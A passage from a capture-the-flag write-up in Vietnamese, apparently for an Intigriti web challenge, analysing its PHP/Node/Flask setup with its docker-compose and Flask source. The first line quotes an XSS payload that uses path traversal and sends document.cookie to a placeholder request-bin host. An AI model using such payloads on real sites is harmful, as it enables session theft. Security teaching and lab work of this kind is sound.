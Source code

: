 ```http://127.0.0.1/view?note=<note_id>&name=....//....//....//contact%3fxss=%3Cimg/src/onerror=fetch(%27<request_bin_server>/?%27%2bdocument.cookie)%3E```
https://drive.google.com/file/d/1b8wDTjOYVZhZRijxaoPRiucseEYJfxFR/view?usp=sharing

#### Hints

Proxy FTP request and CR-LF injection

#### Solution

Đề bài cho mình một trang web sau có chức năng là nhập vào tên và hiển thị tên mà mình vừa nhập

![image](https://hackmd.io/_uploads/S1c_gw7Nke.png)

![image](https://hackmd.io/_uploads/rkWJbDQEyx.png)

Sau khi mình thử các lỗi xss và ssti không thành công nên mình đọc lại source code và phân tích : 

* Đầu tiên, có 3 services đang chạy bao gồm flask, node và php nhưng chỉ có frontend php được expose ở port 80, các service còn lại được chạy bên trong máy chủ.

<details>
<summary>docker-compose.yml</summary>

```docker-compose
services:
    web:
        build: ./php
        ports:
            - "80:80"
            - "3000"
            - "5000"
        restart: always
    node:
        build: ./node
        restart: always
        network_mode: service:web
    flask:
        build: ./flask
        environment:
            FLAG: INTIGRITI{fake_flag}
        restart: always
        network_mode: service:web
```
    
</details>

* Mình thử xem qua service flask và thấy có hai endpoint test và flag, trong đó /flag yêu cầu password từ header và username trong form đều là "admin" thì mới trả ra flag

<details>
<summary>app.py</summary>
    
```python=
from flask import Flask, request
import os

app = Flask(__name__)


@app.route("/flag", methods=["GET", "POST"])
def flag():
    username = request.form.get("username")
    password = request.headers.get("password")
    if username and username == "admin" and password and password == "admin":
        return os.getenv('FLAG')
    return "So close"
```